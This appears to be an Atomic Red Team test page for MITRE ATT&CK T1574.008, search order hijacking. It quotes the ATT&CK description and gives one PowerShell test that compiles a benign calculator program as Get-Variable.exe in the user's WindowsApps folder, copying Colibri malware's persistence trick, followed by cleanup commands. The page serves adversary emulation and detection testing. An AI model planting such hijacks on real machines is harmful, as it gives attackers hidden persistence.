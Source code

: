 # T1574.008 - Hijack Execution Flow: Path Interception by Search Order Hijacking

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/008)

<blockquote>Adversaries may execute their own malicious payloads by hijacking the search order used to load other programs. Because some programs do not call other programs using the full path, adversaries may place their own file in the directory where the calling program is located, causing the operating system to launch their malicious software at the request of the calling program.

Search order hijacking occurs when an adversary abuses the order in which Windows searches for programs that are not given a path. Unlike [DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001), the search order differs depending on the method that is used to execute the program. (Citation: Microsoft CreateProcess) (Citation: Windows NT Command Shell) (Citation: Microsoft WinExec) However, it is common for Windows to search in the directory of the initiating program before searching through the Windows system directory. An adversary who finds a program vulnerable to search order hijacking (i.e., a program that does not specify the path to an executable) may take advantage of this vulnerability by creating a program named after the improperly specified program and placing it within the initiating program's directory.

For example, "example.exe" runs "cmd.exe" with the command-line argument <code>net user</code>. An adversary may place a program called "net.exe" within the same directory as example.exe, "net.exe" will be run instead of the Windows system utility net. In addition, if an adversary places a program called "net.com" in the same directory as "net.exe", then <code>cmd.exe /C net user</code> will execute "net.com" instead of "net.exe" due to the order of executable extensions defined under PATHEXT. (Citation: Microsoft Environment Property)

Search order hijacking is also a common practice for hijacking DLL loads and is covered in [DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001).</blockquote>

## Atomic Tests

- [Atomic Test #1 - powerShell Persistence via hijacking default modules - Get-Variable.exe](#atomic-test-1---powershell-persistence-via-hijacking-default-modules---get-variableexe)

<br/>

## Atomic Test #1 - powerShell Persistence via hijacking default modules - Get-Variable.exe

Colibri leverages PowerShell in a unique way to maintain persistence after a reboot. Depending on the Windows version, Colibri drops its copy in %APPDATA%\Local\Microsoft\WindowsApps and
names it Get-Variable.exe for Windows 10 and above.
https://blog.malwarebytes.com/threat-intelligence/2022/04/colibri-loader-combines-task-scheduler-and-powershell-in-clever-persistence-technique/

**Supported Platforms:** Windows

**auto_generated_guid:** 1561de08-0b4b-498e-8261-e922f3494aae

#### Attack Commands: Run with `powershell`!

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:"$env:localappdata\Microsoft\WindowsApps\Get-Variable.exe" "PathToAtomicsFolder\T1574.008\bin\calc.cs"
Powershell -noprofile
```

#### Cleanup Commands:

```powershell
Remove-Item "$env:localappdata\Microsoft\WindowsApps\Get-Variable.exe" -ErrorAction Ignore
Stop-Process -Name "calculator"
```

<br/>
